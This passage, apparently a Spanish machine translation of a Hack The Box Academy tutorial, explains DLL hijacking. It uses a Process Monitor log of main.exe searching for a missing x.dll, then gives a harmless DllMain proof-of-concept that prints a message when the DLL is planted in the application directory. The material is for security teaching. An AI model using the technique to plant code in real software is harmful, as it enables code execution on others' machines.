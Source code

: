 ![Process Monitor window showing multiple 'CreateFile' operations by main.exe. Paths include various DLL files. Results mostly 'NAME NOT FOUND' with details on desired access and attributes.](https://academy.hackthebox.com/storage/modules/67/procmon-not-found.png)

Como sabemos,`main.exe`búsquedas en muchos lugares buscando`x.dll`, pero no lo encuentra en ningún lado. La entrada que estamos particularmente interesados ​​es:

  Inyección de DLL

```shell-session
17:55:39,7848570	main.exe	37940	CreateFile	C:\Users\PandaSt0rm\Desktop\Hijack\x.dll	NAME NOT FOUND	Desired Access: Read Attributes, Disposition: Open, Options: Open Reparse Point, Attributes: n/a, ShareMode: Read, Write, Delete, AllocationSize: n/a
```

Donde está buscando cargar`x.dll`Desde el directorio de aplicaciones. Podemos aprovechar esto y cargar nuestro propio código, con muy poco contexto de lo que está buscando en`x.dll`.

Código:do

```c
#include <stdio.h>
#include <Windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        printf("Hijacked... Oops...\n");
    }
    break;
    case DLL_PROCESS_DETACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}
```

Este código define una función de punto de entrada DLL llamada`DllMain`Windows llama automáticamente cuando la DLL se carga en un proceso. Cuando la biblioteca se carga, simplemente se imprimirá`Hijacked... Oops...`a la terminal, pero teóricamente podrías hacer cualquier cosa aquí.

Compile o use la versión precompilada proporcionada. Rebautizar`hijack.dll`a`x.dll`, y corre`main.exe`.

![Command prompt showing a program that adds two numbers. Input: 1 and 1. Output: 'Hijacked... Oops...' message, sum is correctly displayed as 2.](https://academy.hackthebox.com/storage/modules/67/hijack.png)

[Anterior](https://academy.hackthebox.com/module/67/section/910)